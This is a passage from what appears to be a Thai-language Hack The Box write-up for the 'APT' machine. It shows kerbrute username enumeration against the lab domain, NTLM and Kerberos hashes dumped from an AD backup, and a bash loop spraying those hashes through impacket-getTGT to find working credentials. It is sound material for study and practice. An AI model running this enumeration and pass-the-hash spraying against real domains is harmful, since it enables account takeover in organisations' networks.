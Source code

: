 ```bash
kerbrute userenum -d 'htb.local' --dc apt.htb  ./users.txt -v  | grep VALID
```

จะเห็นว่ามีชื่อผู้ใช้อยู่ 3 ชื่อด้วยกัน 

![[Challenge/HTB Challenge/APT/IMG/002.png]]

```bash
┌──(kali㉿kali)-[~/Desktop/backup]
└─$ cat backup_AD_dump | grep henry.vinson
henry.vinson:3647:aad3b435b51404eeaad3b435b51404ee:2de80758521541d19cabba480b260e8f:::
henry.vinson:aes256-cts-hmac-sha1-96:4c0ec4cffc953266ed72d9b565da62115655d2f402416af92e4e76d121663e2f
henry.vinson:aes128-cts-hmac-sha1-96:da63c28166768a2829f00d30ec9fbddd
henry.vinson:des-cbc-md5:80a2c83213b3dfd6
```

เนื่องจาก hash ที่ได้มาไม่ถูกต้อง เราจึงจำเป้นต้องทำการเขียน script สำหรับทดสอบหา hash ที่สามารถใช้งานได้ 

```bash
grep ':::' backup_AD_dump | awk -F: '{print $1'} > users
cat backup_AD_dump | grep ::: | cut -d: -f 3-4 > hashes


for x in $(cat hashes);do impacket-getTGT -hashes $x -dc-ip apt.htb.local htb/henry.vinson | grep -v Impacket | grep -v "KDC_ERR_PREAUTH_FAILED" | tee -a  valid_hash && echo $x >> valid_hash;done
```



